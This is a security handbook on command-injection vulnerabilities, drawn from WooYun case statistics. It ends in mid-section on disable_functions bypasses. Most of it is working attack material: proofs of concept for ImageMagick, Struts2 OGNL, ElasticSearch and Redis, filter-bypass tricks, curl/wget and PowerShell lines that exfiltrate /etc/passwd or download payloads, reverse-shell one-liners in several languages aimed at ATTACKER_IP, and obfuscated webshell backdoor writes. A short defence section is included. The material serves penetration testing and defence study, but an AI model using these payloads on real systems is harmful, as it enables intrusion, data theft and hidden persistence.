

# Command Execution Vulnerability Analysis Handbook

> In-depth analysis based on 6,826 command execution vulnerability cases from the WooYun vulnerability database
> Analysis sample: Top 50 high-quality cases ranked by detail level

---

## 1. Command Execution Entry Point Classification

### 1.1 Statistical Overview

| Entry Type | Case Count | Percentage | Typical Scenario |
|-----------|-----------|-----------|-----------------|
| File Operations | 34 | 68% | File upload, read, decompression |
| System Command Functions | 31 | 62% | exec/system/shell_exec |
| Struts2 Framework | 25 | 50% | OGNL Expression Injection |
| Compression/Decompression | 15 | 30% | tar/zip/gzip processing |
| SSRF | 15 | 30% | URL parameter passing |
| ping Command | 13 | 26% | Network diagnostic features |
| Image Processing | 12 | 24% | ImageMagick/GraphicsMagick |
| Network Requests | 12 | 24% | curl/wget invocation |
| Java Deserialization | 10 | 20% | WebLogic/JBoss |
| DNS Queries | 8 | 16% | nslookup/dig |

### 1.2 High-Frequency Entry Points Detailed

#### 1.2.1 ImageMagick Command Execution (CVE-2016-3714)

**Vulnerability Mechanism**: When ImageMagick processes images, the delegate.xml configuration file contains injection points in its commands

**Typical POC**:
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image"|bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1 &")'
pop graphic-context
```

**Alternative Format**:
```
push graphic-context
viewbox 0 0 640 480
image copy 200,200 100,100 "|bash -i >& /dev/tcp/ATTACKER_IP/53 0>&1"
pop graphic-context
```

**Real-World Cases**:
- WooYun-2016-0205171: Avatar upload on a major social network, directly obtained root shell
- WooYun-2016-0214726: A social media platform, patch bypass
- WooYun-2016-0205815: A mobile app avatar upload

**Exploitation Conditions**:
1. Website uses ImageMagick to process user-uploaded images
2. Version < 6.9.3-10 or 7.x < 7.0.1-1

---

#### 1.2.2 FFmpeg SSRF/File Read

**Vulnerability Mechanism**: When FFmpeg processes HLS playlists, the concat protocol can be used to read local files or initiate SSRF

**Typical POC**:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:https://example.com/payload
#EXT-X-ENDLIST
```

**File Read POC**:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
concat:file:///etc/passwd
#EXT-X-ENDLIST
```

**Real-World Cases**:
- WooYun-2016-0205709: Upload endpoint on a video sharing platform

---

#### 1.2.3 Struts2 OGNL Expression Injection

**Vulnerability Mechanism**: Struts2 framework improperly handles user-supplied OGNL expressions

**S2-045 POC**:
```
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',123*123)}.multipart/form-data
```

**S2-016/S2-013 redirect/action POC**:
```
redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23out%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23out.getWriter().println('dbapp%3A'+new java.lang.String(%23e)),%23out.getWriter().flush(),%23out.getWriter().close()}
```

**Generic Command Execution Expression**:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
```

**Real-World Cases**:
- WooYun-2015-0122286: A gaming company, Expression language injection
- WooYun-2014-087017: A major video portal, Struts command execution
- WooYun-2015-0164662: A government health system

---

#### 1.2.4 Java Deserialization (WebLogic/JBoss/Jenkins)

**Vulnerability Mechanism**: Maliciously crafted object chains execute during Java deserialization

**WebLogic T3 Protocol Exploitation**:
```bash
java -jar ysoserial.jar CommonsCollections1 "whoami" | nc target 7001
```

**JBoss JMX-Console Exploitation**:
```
# Access /jmx-console to upload WAR packages
# Default credentials: admin/admin
http://target:8080/jmx-console/
```

**Real-World Cases**:
- WooYun-2015-0166055: A major energy corporation, WebLogic root privileges
- WooYun-2015-0163942: An insurance company, WebLogic
- WooYun-2015-0144418: A telecom provider, JBoss

---

#### 1.2.5 ElasticSearch Groovy Script Execution

**Vulnerability Mechanism**: ElasticSearch 1.x versions have dynamic script execution enabled by default

**POC**:
```json
POST /_search?pretty HTTP/1.1
Host: target:9200
Content-Type: application/json

{
  "script_fields": {
    "exp": {
      "script": "java.lang.Runtime.getRuntime().exec('id')"
    }
  }
}
```

**Groovy Sandbox Bypass**:
```json
{
  "size": 1,
  "script_fields": {
    "lupin": {
      "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"
    }
  }
}
```

**Real-World Cases**:
- WooYun-2015-099709: A gaming company, multiple ElasticSearch instances

---

#### 1.2.6 ping Command Injection

**Vulnerability Mechanism**: User input is directly concatenated into the ping command

**Typical Vulnerable PHP Code**:
```php
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
```

**POC**:
```
ip=127.0.0.1;whoami
ip=127.0.0.1|id
ip=127.0.0.1`id`
ip=127.0.0.1$(id)
ip=127.0.0.1%0aid
```

---

## 2. Command Concatenation Operators

### 2.1 Statistical Overview

| Operator | Case Count | Meaning | Execution Logic |
|----------|-----------|---------|----------------|
| `;` | 30 | Command separator | Sequential execution, regardless of previous result |
| `\|` | 14 | Pipe | Previous output feeds into next command |
| `` ` `` | 5 | Command substitution | Executes command within backticks |
| `\|\|` | 5 | Logical OR | Executes next only if previous fails |
| `%0a` | 1 | Newline | URL-encoded newline character |
| `&&` | 1 | Logical AND | Executes next only if previous succeeds |
| `$()` | 1 | Command substitution | Executes command within parentheses |

### 2.2 Operator Details

#### 2.2.1 Semicolon `;`
```bash
# Most common; unaffected by previous command result
ping 127.0.0.1; whoami; id
```

#### 2.2.2 Pipe `|`
```bash
# Previous output feeds into next command
ping 127.0.0.1 | id
# Common variation
ping 127.0.0.1 || id  # Executes next if previous fails
```

#### 2.2.3 Command Substitution
```bash
# Backtick form
ping `whoami`
# $() form
ping $(whoami)
```

#### 2.2.4 Logical Operators
```bash
# && executes next only if previous succeeds
ping 127.0.0.1 && whoami
# || executes next only if previous fails
ping nonexistent.host || whoami
```

#### 2.2.5 Newline Characters
```
# URL-encoded newline
ping%0awhoami
ping%0d%0awhoami
```

---

## 3. Filter Bypass Techniques

### 3.1 Statistical Overview

| Bypass Technique | Case Count | Applicable Scenario |
|-----------------|-----------|-------------------|
| Wildcards | 45 | Filename/command name filtering |
| cat Alternatives | 30 | cat keyword filtering |
| Angle Brackets `<>` | 29 | Space filtering |
| Hex Encoding | 12 | Character filtering |
| URL Encoding | 8 | Web scenarios |
| `%09` Tab | 5 | Space filtering |
| Base64 Encoding | 2 | Complex command delivery |

### 3.2 Space Bypass

#### 3.2.1 `${IFS}` Internal Field Separator
```bash
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
cat${IFS}$9/etc/passwd
```

#### 3.2.2 Tab Character `%09`
```bash
cat%09/etc/passwd
```

#### 3.2.3 Redirect Operators `<>`
```bash
cat</etc/passwd
{cat,/etc/passwd}
```

#### 3.2.4 Brace Expansion
```bash
{cat,/etc/passwd}
{ls,-la,/}
```

### 3.3 Keyword Bypass

#### 3.3.1 Quote Splitting
```bash
c'a't /etc/passwd
c"a"t /etc/passwd
c``at /etc/passwd
```

#### 3.3.2 Backslash Splitting
```bash
c\at /etc/passwd
wh\oami
```

#### 3.3.3 Variable Concatenation
```bash
a=c;b=at;$a$b /etc/passwd
```

#### 3.3.4 Wildcards
```bash
/bin/ca* /etc/passwd
/bin/c?t /etc/passwd
/???/??t /etc/passwd
```

### 3.4 cat Command Alternatives

```bash
# The following commands can all read file contents
tac /etc/passwd      # Reverse output
head /etc/passwd     # Output beginning
tail /etc/passwd     # Output end
more /etc/passwd     # Paged view
less /etc/passwd     # Paged view
nl /etc/passwd       # Output with line numbers
sort /etc/passwd     # Sorted output
uniq /etc/passwd     # Deduplicated output
od -c /etc/passwd    # Octal output
xxd /etc/passwd      # Hexadecimal output
base64 /etc/passwd   # Base64-encoded output
rev /etc/passwd      # Reversed characters
paste /etc/passwd    # Merge files
```

### 3.5 Encoding Bypass

#### 3.5.1 Base64 Encoding
```bash
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash
bash -c "$(echo Y2F0IC9ldGMvcGFzc3dk | base64 -d)"
```

#### 3.5.2 Hex Encoding
```bash
echo -e "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64" | bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```

#### 3.5.3 URL Encoding
```
cat%20/etc/passwd
cat%09/etc/passwd
```

### 3.6 Path Bypass

```bash
# Absolute paths
/bin/cat /etc/passwd
/usr/bin/id

# Environment variables
$HOME
$PATH

# Wildcard paths
/???/??t /???/p??s??
```

---

## 4. Blind (No Output) Detection Methods

### 4.1 Statistical Overview

| Detection Method | Case Count | Principle |
|-----------------|-----------|----------|
| HTTP Out-of-Band | 41 | curl/wget sends results |
| DNSLog | 9 | DNS query logging |
| Time Delay | 6 | sleep/ping delay |
| File Write | 2 | Write to web directory |

### 4.2 DNSLog Out-of-Band

**Common Platforms**:
- ceye.io
- dnslog.cn
- Burp Collaborator

**POC**:
```bash
# Basic out-of-band
ping `whoami`.xxxxx.ceye.io

# Out-of-band with data
curl http://`whoami`.xxxxx.ceye.io

# Full data exfiltration
curl https://example.com/log?data=`cat /etc/passwd | base64 | tr '\n' '-'`
```

### 4.3 HTTP Out-of-Band

**curl Method**:
```bash
# GET request with data
curl https://example.com/log?data=`whoami`
curl https://example.com/log?data=`cat /etc/passwd | base64`

# POST request
curl -X POST -d "data=$(cat /etc/passwd)" https://example.com/collect
```

**wget Method**:
```bash
wget https://example.com/log?data=`whoami`
```

### 4.4 Time Delay Detection

```bash
# sleep command
sleep 5

# ping delay
ping -c 5 127.0.0.1

# Conditional delay
if [ $(whoami) = "root" ]; then sleep 5; fi
```

### 4.5 File Write Detection

```bash
# Write to web directory
echo "<?php phpinfo();?>" > /var/www/html/info.php

# Write to temporary file
id > /tmp/result.txt
cat /tmp/result.txt

# Append write
id >> /var/www/html/log.txt
```

---

## 5. Common Vulnerable Frameworks/CMS

### 5.1 Statistical Overview

| Framework/CMS | Case Count | Primary Vulnerability Type |
|--------------|-----------|--------------------------|
| Struts2 | 23 | OGNL Expression Injection |
| JBoss | 9 | Deserialization/JMX |
| Tomcat | 9 | PUT Upload/AJP |
| ElasticSearch | 8 | Groovy Script Execution |
| Discuz | 7 | Code Execution/SSRF |
| phpMyAdmin | 6 | SQL to Command Execution |
| WebLogic | 5 | Deserialization |
| Redis | 4 | Unauthorized Access/File Write |
| Spring | 4 | SpEL Injection |
| Zabbix | 2 | Command Execution |
| Nagios | 2 | Command Execution |
| ThinkPHP | 1 | Code Execution |

### 5.2 Framework Vulnerability Details

#### 5.2.1 Struts2 Vulnerability Series

| CVE ID | Vulnerability Name | Affected Versions |
|--------|-------------------|-------------------|
| S2-001 | OGNL Injection | 2.0.0-2.0.8 |
| S2-005 | OGNL Injection | 2.0.0-2.0.11.2 |
| S2-009 | OGNL Injection | 2.1.0-2.3.1.1 |
| S2-013 | URL Redirect | 2.0.0-2.3.14.1 |
| S2-016 | redirect/action | 2.0.0-2.3.15 |
| S2-019 | Dynamic Method Invocation | 2.0.0-2.3.15.1 |
| S2-032 | Dynamic Method Invocation | 2.3.20-2.3.28 |
| S2-045 | Content-Type | 2.3.5-2.3.31 |
| S2-046 | Content-Disposition | 2.3.5-2.3.31 |
| S2-048 | Struts1 Plugin | 2.3.x with Struts1 |
| S2-052 | REST Plugin | 2.1.2-2.3.33 |
| S2-053 | Freemarker | 2.0.1-2.3.33 |
| S2-057 | namespace | 2.0.4-2.3.34 |

#### 5.2.2 WebLogic Deserialization

**Affected Versions**:
- 10.3.6.0
- 12.1.3.0
- 12.2.1.2
- 12.2.1.3

**Vulnerable Port**: 7001 (T3 protocol)

**Detection Method**:
```bash
nmap -p 7001 --script=weblogic-t3-info target
```

#### 5.2.3 JBoss Vulnerabilities

**Common Vulnerability Entry Points**:
- /jmx-console (default admin/admin)
- /invoker/JMXInvokerServlet
- /invoker/EJBInvokerServlet

**Exploitation Methods**:
1. Upload WAR packages to deploy webshells
2. Deserialization-based command execution

#### 5.2.4 Redis Unauthorized Access

**Exploitation Conditions**:
- Redis has no password set
- Redis port (6379) is accessible

**Write SSH Public Key**:
```bash
redis-cli -h target
config set dir /root/.ssh
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAA...\n\n"
save
```

**Write Crontab**:
```bash
config set dir /var/spool/cron
config set dbfilename root
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/attacker/8080 0>&1\n\n"
save
```

---

## 6. Practical Payload Collection

### 6.1 Reverse Shell

#### Bash
```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

#### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

#### Perl
```bash
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP
```bash
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat
```bash
nc -e /bin/sh ATTACKER_IP PORT
nc ATTACKER_IP PORT -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

### 6.2 Write Webshell

#### PHP One-Liner Webshell
```bash
echo '<?php @eval($_POST["pass"]);?>' > /var/www/html/shell.php
```

#### JSP Webshell
```bash
echo '<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>' > shell.jsp
```

### 6.3 Information Gathering

```bash
# System information
uname -a
cat /etc/issue
cat /etc/*-release

# User information
id
whoami
cat /etc/passwd
cat /etc/shadow

# Network information
ifconfig
ip addr
netstat -antlp
ss -antlp

# Process information
ps aux
ps -ef

# Scheduled tasks
crontab -l
cat /etc/crontab
ls -la /etc/cron.*
```

---

## 7. Defense Recommendations

### 7.1 Input Validation

1. **Allowlist validation**: Only permit specific characters (e.g., IP addresses only allow digits and dots)
2. **Type validation**: Ensure input matches the expected data type
3. **Length restriction**: Limit input length to prevent injection

### 7.2 Command Execution Protection

1. **Avoid direct execution**: Use language built-in functions instead of system commands
2. **Parameterized execution**: Use array arguments instead of string concatenation
3. **Escape special characters**: escapeshellarg() / escapeshellcmd()

**PHP Secure Example**:
```php
// Dangerous approach
system("ping " . $_GET['ip']);

// Safer approach
$ip = escapeshellarg($_GET['ip']);
system("ping " . $ip);

// Safest: allowlist validation
if (filter_var($_GET['ip'], FILTER_VALIDATE_IP)) {
    system("ping " . escapeshellarg($_GET['ip']));
}
```

### 7.3 Framework/Component Updates

1. Promptly update Struts2, WebLogic, and other frameworks
2. Disable unnecessary features (e.g., Struts2 dynamic method invocation)
3. Configure security policies (e.g., disable scripting in ElasticSearch)

### 7.4 Principle of Least Privilege

1. Run web services with low-privilege users
2. Restrict permissions for command execution users
3. Use chroot/container isolation

---

## 8. Detection Methodology

### 8.1 Vulnerability Discovery Flow

```
1. Identify Entry Points
   - Search features (ping/nslookup)
   - File operations (upload/download/compression)
   - Image processing
   - Framework fingerprinting

2. Determine Execution Environment
   - Linux/Windows
   - Output present or blind
   - Filter rule probing

3. Construct Payloads
   - Basic payload testing
   - Bypass technique combinations
   - Out-of-band data verification

4. Validate Exploitation
   - Information gathering
   - Reverse shell
   - Persistence
```

### 8.2 Automated Detection Key Points

1. **Identify frameworks**: Struts2 (.action/.do), ThinkPHP, Spring, etc.
2. **Parameter testing**: All user-controllable parameters should be tested
3. **Time-based blind injection**: Use sleep to verify when no output is available
4. **Out-of-band verification**: Confirm execution via DNSLog/HTTP requests

---

## 9. Case Reference Index

| Vulnerability Type | WooYun ID | Key Characteristics |
|-------------------|-----------|-------------------|
| WebLogic Deserialization | WooYun-2015-0166055 | T3 Protocol |
| JBoss Deserialization | WooYun-2015-0144418 | JMX-Console |
| Struts2 OGNL | WooYun-2015-0122286 | Expression Injection |
| ImageMagick | WooYun-2016-0205171 | Image Upload |
| FFmpeg | WooYun-2016-0205709 | Video Upload |
| ElasticSearch | WooYun-2015-099709 | Groovy Script |
| ThinkPHP | WooYun-2015-0141195 | Command Injection |
| CGI Command Execution | WooYun-2015-0155792 | Shellshock |
| Firewall Backdoor | WooYun-2016-0180305 | Code Audit |

---

> Last updated: Based on WooYun vulnerability database analysis
> Analysis tools: Python + JSON parsing
> Sample size: 6,826 command execution vulnerabilities, in-depth analysis of 50 high-quality cases

---

## 10. PHP Command Execution Meta-Analysis Methodology

> **Core Insight**: The essence of command execution vulnerabilities is "data flow contamination" -- user input enters an execution context without adequate sanitization
> **Key Capabilities**: Identify dangerous functions -> Trace data flow -> Construct exploit chains -> Bypass protections

### 10.1 Dangerous Function Identification Matrix (Three-Dimensional Classification)

#### Dimension 1: Execution Capability Level

| Level | Functions | Execution Scope | Output Capability | Risk Level |
|-------|----------|----------------|-------------------|------------|
| **L1-Code Level** | eval(), assert(), create_function() | PHP code execution | Controllable | Critical |
| **L2-Shell Level** | system(), passthru(), shell_exec() | System commands | Has output | High |
| **L3-Process Level** | exec(), popen(), proc_open() | Subprocess | Limited | Medium |
| **L4-Callback Level** | call_user_func*, array_map() | Function invocation | Context-dependent | Low |

#### Dimension 2: Data Flow Pattern



#### Dimension 3: Exploit Chain Complexity

| Complexity | Exploit Pattern | Typical Scenario | Testing Cost |
|-----------|----------------|-----------------|-------------|
| **C1-Direct Chain** | Parameter -> Dangerous Function | eval($_GET['x']) | Low |
| **C2-Propagation Chain** | Parameter -> Variable -> Dangerous Function | $code=$_GET['x']; eval($code) | Medium |
| **C3-Hybrid Chain** | Multiple Parameters Combined -> Dangerous Function | Template engine/framework vulnerabilities | High |
| **C4-Logic Chain** | Conditional Trigger -> Dangerous Function | Deserialization/scheduled tasks | Very High |

### 10.2 PHP Dangerous Functions Deep Analysis

#### 10.2.1 eval() - The King of Code Execution

**Root Cause Analysis**:
- Directly executes PHP code with no intermediate conversion
- Execution context inherits all variables from the current scope
- Can pass data via return statements

**Typical Vulnerability Patterns**:

```php
// Pattern 1: Direct execution
eval($_POST['code']);  // Most dangerous

// Pattern 2: Variable passing
$code = $_GET['func'];
eval($code);  // Indirectly dangerous

// Pattern 3: String concatenation
eval('$result = ' . $_GET['expr'] . ';');  // Expression injection

// Pattern 4: Dynamic function name
$func = $_GET['f'];
eval('$func();');  // Function call injection
```

**Test Payload Matrix**:

| Test Target | Payload | Expected Result |
|------------|---------|----------------|
| Basic verification | `phpinfo();` | Displays PHP configuration |
| Code execution | `system('whoami');` | Executes system command |
| File read | `file_get_contents('/etc/passwd');` | Reads sensitive file |
| Write webshell | `file_put_contents('shell.php','<?php @eval($_POST[x]);?>');` | Writes one-liner webshell |
| Variable leak | `var_dump(get_defined_vars());` | Leaks all variables |
| Blind execution | `${system($_GET['cmd'])}` | HTTP out-of-band data |

#### 10.2.2 assert() - The Lurking Code Executor

**Version Differences**:
- PHP 5.x: assert() can execute code
- PHP 7.x: Only for expression testing, cannot execute code
- PHP 8.x: String parameter functionality completely removed

**Typical Vulnerable Code**:
```php
// PHP 5.x dangerous usage
assert($_POST['cmd']);  // Direct execution
assert(trim($_GET['x']));  // Still dangerous even when wrapped
```

**Exploitation Techniques**:
```php
// Bypass quote filtering
assert($_POST{x});  // Using curly braces

// Multi-statement execution
assert($_POST['cmd']);exit;  // Add exit to prevent subsequent code interference
```

#### 10.2.3 preg_replace() /e - The Regex Black Hole

**Vulnerability Mechanism**: The /e modifier causes the replacement parameter to be executed as PHP code

**Dangerous Pattern**:
```php
// CVE-2016-5734 / phpMyAdmin 2.x
preg_replace('/\s/e', $_GET['c'], $data);
```

**Exploitation Payloads**:
```php
// Basic execution
preg_replace('/a/e', 'phpinfo()', 'a');

// Complex command
preg_replace('/a/e', 'system("whoami")', 'a');

// Encoding bypass
preg_replace('/a/e', 'chr(115).chr(121).chr(115).chr(116).chr(101).chr(109)', 'a');
```

#### 10.2.4 system() - The Direct Command Pipeline

**Function Characteristics**:
- Directly outputs execution results to standard output
- Returns only the last line
- Automatically invokes the shell to process commands

**Test Payloads (Linux)**:
```bash
# Basic command execution
system('whoami');
system('id');
system('pwd');

# Command chains
system('whoami && id && pwd');
system('whoami;id;pwd');
system('whoami|id');

# Special character testing
system('whoami;cat /etc/passwd');
system('whoami`id`');
system('whoami$(id)');
```

**Test Payloads (Windows)**:
```cmd
# Basic commands
system('whoami');
system('ipconfig');
system('net user');

# Windows command chains
system('whoami & dir');  # & executes regardless of success
system('whoami && dir');  # && executes only on success
system('whoami || dir');  # || executes only on failure

# PowerShell bypass
system('powershell -c "whoami"');
system('powershell -c "IEX (New-Object Net.WebClient).DownloadString(\'https://example.com/payload\')"');
```

#### 10.2.5 shell_exec() - The Silent Executor

**Function Characteristics**:
- Executes commands with no direct output
- Returns all execution results
- Equivalent to backticks `` `command` ``

**Typical Scenarios**:
```php
// Scenario 1: Assign then output
$output = shell_exec($_GET['cmd']);
echo $output;

// Scenario 2: Log recording
shell_exec('ping -c 1 ' . $_GET['ip']);

// Scenario 3: Backtick form
`ls -la $_GET['dir']`;
```

**Testing Techniques**:
```php
// With output
shell_exec('whoami');

// Without output - HTTP out-of-band
shell_exec('curl https://example.com/collect?data=$(whoami)');

// DNS out-of-band
shell_exec('ping $(whoami).ceye.io');
```

#### 10.2.6 exec() vs passthru() Comparison

| Feature | exec() | passthru() |
|---------|--------|------------|
| Output Method | Requires manual echo | Automatic output |
| Return Value | Last line | None |
| Binary Data | Requires proc_open() | Can directly output images, etc. |
| Use Case | When result processing is needed | Displaying raw command output |

**Code Examples**:
```php
// exec() - requires output
exec('ls -la', $output);
print_r($output);

// passthru() - automatic output
passthru('ls -la');
```

### 10.3 Complete Test Payload Matrix

#### 10.3.1 Basic Verification Payloads (Universal)

**Goal: Verify vulnerability existence**

| Execution Method | Linux | Windows |
|-----------------|-------|---------|
| User identity | `whoami` | `whoami` |
| System info | `uname -a` | `ver` |
| Current directory | `pwd` | `cd` |
| Network config | `ifconfig` | `ipconfig` |
| Process list | `ps aux` | `tasklist` |

#### 10.3.2 Code Execution Payloads (PHP-Specific)

**Goal: Obtain PHP execution environment**

```php
// Display PHP information
phpinfo()

// Display all variables
var_dump(get_defined_vars())
print_r($_SERVER)
print_r($_ENV)

// Read files
file_get_contents('/etc/passwd')
highlight_file('/var/www/html/config.php')
show_source('/etc/passwd')

// Write files
file_put_contents('/var/www/html/shell.php','<?php @eval($_POST[x]);?>')

// List directory
scandir('/var/www/html')
glob('/var/www/html/*')

// Execute system commands
system('whoami')
shell_exec('id')
passthru('pwd')
exec('ls -la')
```

#### 10.3.3 Command Chain Payloads

**Goal: Execute multiple commands in a single request**

```bash
# Linux command chains
whoami;id;pwd  # Semicolon-separated
whoami && id && pwd  # Logical AND
whoami || id  # Logical OR
whoami|id  # Pipe
whoami`id`  # Command substitution
whoami$(id)  # $() substitution

# Windows command chains
whoami & dir  # & unconditional execution
whoami && dir  # && success-conditional
whoami || dir  # || failure-conditional
whoami | dir  # Pipe
```

#### 10.3.4 Blind (No Output) Scenario Payloads

**Goal: Verify execution when there is no output**

**DNSLog Out-of-Band**:
```bash
# Basic verification
ping `whoami`.xxxxx.ceye.io

# Data exfiltration
curl https://example.com/log?data=`cat /etc/passwd | base64 | tr '\n' '-'`

# Windows
ping %COMPUTERNAME%.xxxxx.ceye.io
nslookup %USERNAME%.xxxxx.ceye.io
```

**HTTP Out-of-Band**:
```bash
# Linux
curl https://example.com/collect?data=$(whoami)
wget https://example.com/collect?data=$(whoami)

# Windows
powershell -c "Invoke-WebRequest -Uri 'https://example.com/collect?data='$env:USERNAME"
certutil -urlcache -split -f "https://example.com/collect" C:\test.txt
```

**Time Delay**:
```bash
# Linux
sleep 5
ping -c 5 127.0.0.1

# Windows
timeout 5
ping -n 6 127.0.0.1
```

#### 10.3.5 File Write Payloads

**Goal: Persistent backdoor**

```php
// PHP Webshell
file_put_contents('/var/www/html/.config.php','<?php @eval($_POST[x]);?>')

// Obfuscated form (bypasses keyword detection)
$func = 'file_' . 'put_' . 'contents';
$file = '/var/www/html/.config.php';
$data = chr(60).chr(63).chr(112).chr(104).chr(112).chr(32); // <?php
$func($file,$data);

// .htaccess backdoor
file_put_contents('/var/www/html/.htaccess','ErrorDocument 404 "/eval.php"');

// Auto-include variant
file_put_contents('/var/www/html/index.php','<?php include(".config.jpg");?>');
file_put_contents('/var/www/html/.config.jpg','<?php @eval($_POST[x]);?>');
```

#### 10.3.6 Reverse Shell Payloads

**Goal: Obtain an interactive shell**

```bash
# Bash TCP
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# Bash UDP
bash -i >& /dev/udp/ATTACKER_IP/PORT 0>&1

# POSIX sh
sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# NC (listener: nc -lvp PORT)
nc -e /bin/sh ATTACKER_IP PORT
nc.traditional -e /bin/sh ATTACKER_IP PORT

# NC without -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# PHP
php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKER_IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# PowerShell (Windows)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback=(iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### 10.4 disable_functions Bypass Methodology

> **Core Insight**: PHP disable_functions is a blocklist mechanism with inherent weaknesses. The key is finding undisabled function combinations to replace blocked functions.

#### 10.4.1 LD_PRELOAD Bypass

**Mechanism**: The LD_PRELOAD environment variable hijacks system library functions, loading a malicious .so file with priority when launching subprocesses

**Exploitation Conditions**:
- A function that can trigger system command execution exists (mail(), error_log(), etc.)
